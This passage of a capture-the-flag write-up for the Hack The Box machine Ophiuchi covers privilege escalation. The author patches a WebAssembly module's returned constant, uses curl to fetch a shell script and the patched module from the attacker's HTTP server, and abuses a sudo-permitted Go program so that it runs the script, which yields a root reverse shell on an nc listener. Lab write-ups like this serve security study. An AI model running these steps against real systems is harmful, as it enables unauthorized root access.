    wabt-1.0.23/bin/wasm-validate
    wabt-1.0.23/bin/spectest-interp
    wabt-1.0.23/bin/wast2json
    wabt-1.0.23/bin/wasm2c
    wabt-1.0.23/bin/wasm-decompile
    wabt-1.0.23/bin/wasm-objdump
    wabt-1.0.23/bin/wat2wasm
    wabt-1.0.23/bin/wasm-interp
    wabt-1.0.23/bin/wasm-opcodecnt
    
    [ 10.10.14.8/23 ] [ /dev/pts/12 ] [HTB/Ophiuchi/privesc]
    → cd wabt-1.0.23/bin
    
    [ 10.10.14.8/23 ] [ /dev/pts/12 ] [privesc/wabt-1.0.23/bin]
    → ls
    spectest-interp  wasm2c  wasm2wat  wasm-decompile  wasm-interp  wasm-objdump  wasm-opcodecnt  wasm-strip  wasm-validate  wast2json  wat2wasm  wat-desugar
    
    [ 10.10.14.8/23 ] [ /dev/pts/12 ] [privesc/wabt-1.0.23/bin]
    → ls -l | grep wasm | grep wat
    -rwxr-xr-x 1 nothing nothing 1309784 Mar 24 22:26 wasm2wat
    -rwxr-xr-x 1 nothing nothing 1541016 Mar 24 22:26 wat2wasm
    
    

so here the binary files we're going to use are **wasm2wat** and **wat2wasm** : 
    
    
    [ 10.10.14.8/23 ] [ /dev/pts/12 ] [privesc/wabt-1.0.23/bin]
    → ./wasm2wat ../../main.wasm
    (module
      (type (;0;) (func (result i32)))
      (func $info (type 0) (result i32)
        i32.const 0)
      (table (;0;) 1 1 funcref)
      (memory (;0;) 16)
      (global (;0;) (mut i32) (i32.const 1048576))
      (global (;1;) i32 (i32.const 1048576))
      (global (;2;) i32 (i32.const 1048576))
      (export "memory" (memory 0))
      (export "info" (func $info))
      (export "__data_end" (global 1))
      (export "__heap_base" (global 2)))
    
    

Luckily for us there is only one **const** value which is currently set to 0 so this is very probable that this is the **f** variable we need to change to 1: 
    
    
    [ 10.10.14.8/23 ] [ /dev/pts/12 ] [privesc/wabt-1.0.23/bin]
    → ./wasm2wat ../../main.wasm > main.wat
    
    [ 10.10.14.8/23 ] [ /dev/pts/12 ] [privesc/wabt-1.0.23/bin]
    → vim main.wat
    
    [ 10.10.14.8/23 ] [ /dev/pts/12 ] [privesc/wabt-1.0.23/bin]
    → cat main.wat
    (module
      (type (;0;) (func (result i32)))
      (func $info (type 0) (result i32)
        i32.const 1)
      (table (;0;) 1 1 funcref)
      (memory (;0;) 16)
      (global (;0;) (mut i32) (i32.const 1048576))
      (global (;1;) i32 (i32.const 1048576))
      (global (;2;) i32 (i32.const 1048576))
      (export "memory" (memory 0))
      (export "info" (func $info))
      (export "__data_end" (global 1))
      (export "__heap_base" (global 2)))
    
    [ 10.10.14.8/23 ] [ /dev/pts/12 ] [privesc/wabt-1.0.23/bin]
    → ./wat2wasm main.wat
    
    [ 10.10.14.8/23 ] [ /dev/pts/12 ] [privesc/wabt-1.0.23/bin]
    → ls -lash | grep main
    4.0K -rw-r--r-- 1 nothing nothing  112 Jul  5 21:46 main.wasm
    4.0K -rw-r--r-- 1 nothing nothing  407 Jul  5 21:45 main.wat
    
    

Now that we have our modified .wasm file, we're going to use it on the box inside a temporary directory: 
    
    
    [terminal 1]
    [ 10.10.14.8/23 ] [ /dev/pts/12 ] [privesc/wabt-1.0.23/bin]
    → mkdir files
    
    [ 10.10.14.8/23 ] [ /dev/pts/12 ] [privesc/wabt-1.0.23/bin]
    → mv main.wasm files
    
    [ 10.10.14.8/23 ] [ /dev/pts/12 ] [privesc/wabt-1.0.23/bin]
    → mv shell.sh files
    
    [ 10.10.14.8/23 ] [ /dev/pts/12 ] [privesc/wabt-1.0.23/bin]
    → cd files
    
    [ 10.10.14.8/23 ] [ /dev/pts/12 ] [wabt-1.0.23/bin/files]
    → ls -l
    total 8
    -rw-r--r-- 1 nothing nothing 112 Jul  5 21:46 main.wasm
    -rw-r--r-- 1 nothing nothing  78 Jul  5 21:50 shell.sh
    
    [ 10.10.14.8/23 ] [ /dev/pts/12 ] [wabt-1.0.23/bin/files]
    → python3 -m http.server 9090
    Serving HTTP on 0.0.0.0 port 9090 (http://0.0.0.0:9090/) ...
    
    [terminal 2]
    admin@ophiuchi:/tmp/nihilist$ curl http://10.10.14.8:9090/shell.sh -o shell.sh
      % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                     Dload  Upload   Total   Spent    Left  Speed
    100    78  100    78    0     0     80      0 --:--:-- --:--:-- --:--:--    80
    admin@ophiuchi:/tmp/nihilist$ curl http://10.10.14.8:9090/main.wasm -o main.wasm
      % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                     Dload  Upload   Total   Spent    Left  Speed
    100   112  100   112    0     0    116      0 --:--:-- --:--:-- --:--:--   116
    
    

Now that's done let's use our new main.wasm:
    
    
    [terminal 2]
    admin@ophiuchi:/tmp/nihilist$ chmod +x shell.sh
    admin@ophiuchi:/tmp/nihilist$ mv shell.sh deploy.sh
    admin@ophiuchi:/tmp/nihilist$ sudo /usr/bin/go run /opt/wasm-functions/index.go
    Ready to deploy
    
    [terminal 1]
    [ 10.10.14.8/23 ] [ /dev/pts/17 ] [wabt-1.0.23/bin/files]
    → nc -lvnp 9001
    listening on [any] 9001 ...
    connect to [10.10.14.8] from (UNKNOWN) [10.10.10.227] 46094
    # id
    uid=0(root) gid=0(root) groups=0(root)
    cacat /root/root.txt
    e8XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
    

And that's it! We managed to a reverse shell as root, and we got the root flag. 

## **Conclusion**

Here we can see the progress graph :

